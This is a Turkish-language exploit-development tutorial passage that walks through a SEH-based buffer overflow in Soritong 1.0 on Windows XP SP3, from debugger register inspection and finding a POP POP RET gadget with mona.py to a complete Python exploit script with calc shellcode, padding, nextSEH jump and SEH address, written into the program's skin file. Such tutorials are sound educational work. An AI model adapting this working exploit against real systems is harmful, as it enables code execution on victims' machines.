

Şimdi sağ alt köşede nextSEH ve SEH alanlarını overwrite ettiğimizi görebilirsiniz. nextSEH  `12FD64` adresinde tutulmakta. Eğer sağ üstte registerların olduğu kısıma bakarsak bu adresin `EDI` registerına yazılmış olduğunu görebiliriz.

`SHIFT+F9` ile devam edelim



Bizim SEH alanına yazmış olduğumuz `CCCC` karakterleri `EIP` ve `ECX` registerına kopyalanmış. Ve `ESP` de `0012D644` adresini gösteriyor. O adresede sağ alt köşeden bakacak olursak eğer...

    0012D644   7C8F32A8
    0012D648   0012D72C  
    0012D64C   0012FD64  

Şöyle sıralandığını görebiliriz. Yani biz bu durumda `EIP` üzerine 2 adet pop komutu yazarsak `0012D644` adresinde bulunan değer ile `0012D648` adresinde bulunan değer gidecek ve `ESP` artık `0012D64C` adresini gösteriyor olacak. `RET` komutu çalıştığı zamanda bu adresin içerisinde bulunan `0012FD64` adresine giderek orda bulunan jmp code çalışacak :D

Sanırım artık `SEH Based Exploit`'imizi bitirebiliriz. `POP` işlemleri bulmak için `mona.py` kullanabiliriz.

    !mona seh



`mona.py` kurulumunu ve aradığımız şeyin çıktısını yazması için nasıl dosya yolu verebileceğimizi bir önceki yazıda anlatmıştım. (Bir önceki yazının en sonunda bulabilirsiniz)



Badchar içermeyen, `SafeSeh & ASLR` korumaları kapalı olan ve direk `RET` işlemi gerçekleştiren bir adres seçelim.

```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xeb\x06\x90\x90" # jump 6 byte
SEH = b"\x39\xaf\x01\x10"

exploit = padding + nextSEH + SEH + calc

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Artık exploitimiz çalışmaya hazır (:


